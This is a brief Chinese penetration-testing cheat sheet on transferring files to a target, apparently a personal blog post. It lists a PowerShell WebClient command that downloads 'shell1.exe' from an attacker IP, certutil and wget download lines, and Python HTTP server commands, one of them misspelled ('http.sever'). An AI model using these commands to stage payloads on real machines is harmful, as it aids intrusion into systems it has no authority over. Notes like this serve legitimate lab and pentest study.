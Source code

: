 ```yaml
---
title: 渗透测试之文件传输
date: 2021/12/12
tags: 渗透测试
categories: 渗透测试
temp_img: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_15.jpg
banner_img: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_15.jpg
---
```




# 文件传输

---

- 首先要在本地机器上开启HTTP服务（在被传文件的同一路径下）：

```
python2 -m SimpleHTTPServer
python3 -m http.sever
```

---



## windows

- powershell

```
PowerShell (new-object Net.WebClient).DownloadFile('http://10.10.14.5:8082/shell1.exe','c:\Users\tolis\Desktop\shell1.exe')
```

- [certutil](https://zhuanlan.zhihu.com/p/107819644) windows自带渗透测试文件

```
certutil -f -urlcache http://10.10.14.3/file.exe renamefile.exe
certutil.exe -urlcache -split -f http://example.com/file.txt
```

## linux

- wget

```
需要切换到/tmp目录下，才具有下载权限
wget http://example.com:port/filename.txt
```

